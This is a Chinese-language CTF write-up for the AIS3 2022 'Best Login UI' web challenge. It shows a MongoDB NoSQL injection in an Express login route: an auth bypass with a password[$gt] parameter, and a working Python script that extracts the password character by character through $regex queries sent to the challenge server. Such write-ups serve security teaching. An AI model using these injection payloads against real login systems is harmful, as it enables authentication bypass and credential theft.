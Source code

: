 ```yaml
---
layout: post
title: AIS3 2022 pre-exam The Best Login UI
tags: [CTF, web]
---
```

> 我做ㄌ世界上最棒的登入介面，現在給你看看 ><

![best-login-ui]({{"/assets/img/posts/ais3-2022/best-login-ui.png" | relative_url}}){:style="max-height: 800px; display: block; margin: auto"}

~~好啦比[去年的](https://blog.ovo.anderwei.net/archives/548)強~~

## 解題
這題是NoSQL Injection，從`app.js`可以看到問題在哪裡
```javascript
app.post('/login', async (req, res) => {
  const db = app.get('db');
  const { username, password } = req.body;
  console.log({username, password});
  const user = await db.collection('users').findOne({ username, password });
  if (user) {
      res.send('Success owo!');
  } else {
      res.send('Failed qwq');
  }
});
```

`findOne`這樣寫會被注入，可以在`password`用`{$gt: ""}`之類的東西把登入的部份bypass掉，像是`{username: "admin", password: {$gt: ""}}`

在ExpressJS中，發request的時候在對應欄位加`[]`可以寫一個object進去（這是由於ExpressJS中的[body-parser](https://www.npmjs.com/package/body-parser)使用[qs](https://www.npmjs.com/package/qs)去parse request body的關係）
> qs allows you to create nested objects within your query strings, by surrounding the name of sub-keys with square brackets `[]`. For example, the string `'foo[bar]=baz'` converts to:
> ```javascript
> assert.deepEqual(qs.parse('foo[bar]=baz'), {
>   foo: {
>     bar: 'baz'
>   }
> });
> ```

也就是說要得到那樣的輸入，在發request時用`username=admin&password[$gt]=""`就可以了

但這題沒有那麼簡單，就算成功登入後也拿不到flag，所以猜測flag其實是密碼，要用另外一個方法把密碼爆出來

爆密碼要用`$regex`去做，原理是猜當前的字元後用`+`結尾，如果成功登入就代表猜對字，反之就是猜錯

但regex就是難在有些保留字元要記得escape掉

解題script如下~~，可以看出我當初在哪裡痛苦很久~~
```python
import requests
import string

valid_input = string.printable[:-5] # FUCK SPACE IS ACTUALLY IN THE FLAG?
# flag = 'A153{'
flag = 'AIS3{Bl1nd-b4s3d'

# https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/
while True:
  for c in valid_input:
    data = {
      'username': 'admin',
      'password[$regex]': flag + ("\\" if c in "+*?^$\.[]{}()|/\\" else "") + c + "+"
    }
    print(data['password[$regex]'])
    # r = requests.post('http://localhost:54088/login', data=data)
    r = requests.post('http://chals1.ais3.org:54088/login', data=data)
    if 'owo' in r.text:
      flag += (("\\" if c in "+*?^$\.[]{}()|/\\" else "") + c)
      print(flag)
      if c == '}': exit(0)
      else: break
  print('====================================\n')

# AIS3{Bl1nd-b4s3d r3gex n0sq1i?! (:3[___]}
```

~~NoSQL injection比SQL injection有趣多了~~

後記：在打完之後跟Ander討論的時候，他講我才知道，原來題目的`index.html`就有放input space~~，哭啊~~
```html
<script>
function baseConvert(number) {
  const DIGITS = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ ';
  const base = DIGITS.length;
  let str = '';
  let value = number;
  while (value > 0) {
    str = DIGITS[value % base] + str;
    value = Math.floor(value / base);
  }
  return str;
  }

  document.getElementById('username_input').oninput = function () {
    document.querySelector('input[name="username"]').value = baseConvert(this.value);
  };

  document.getElementById('password_input').oninput = function () {
    document.querySelector('input[name="password"]').value = baseConvert(this.value);
  };
</script>
```

## 參考資料
- [Hacking NodeJS and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
- [MongoDB - Extracting data (admin password) using NoSQL Injection - MMACTF 2016 Web 100 writeup \| Blog - 0daylabs](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/)